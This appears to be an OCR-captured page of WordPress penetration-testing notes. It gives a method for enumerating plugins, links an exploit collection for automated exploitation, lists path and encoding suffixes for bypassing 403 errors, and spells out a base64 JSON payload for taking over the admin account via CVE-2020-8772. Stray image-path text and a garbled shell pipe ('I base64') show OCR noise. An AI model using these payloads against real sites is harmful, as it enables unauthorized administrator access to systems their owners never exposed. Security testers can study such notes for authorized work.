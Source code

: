 ### Enumeration Plugins

`grep all "wp-content/plugins/" from html`

you can use [https://github.com/Mad-robot/wordpress-exploits](https://github.com/Mad-robot/wordpress-exploits)

to automate exploiting 

### Bypassing 403 error

```
?
??
&
#
%
%20
%09
/
/..;/
../
..%2f
..:/
../
\..\.\
.././
..%00/
..%0d/
..%5c
..\
..%ff
%2e%2e%2e%2f
.%2e/
%3f
%26
%23
.json
```

### test for Admin Account Take Over (CVE-2020-8772)

Create the base64 code using the below JSON Payload:

- the payload you must do like this: {"iwp_action" : "add site" , "params" : {"username" : "admin"}}
- the Command you can do with bash: echo ' {"iwp_action " : "add site" , "params" : {"username" : "admin"}} '
I base64

![Untitled](Untitled.webp)
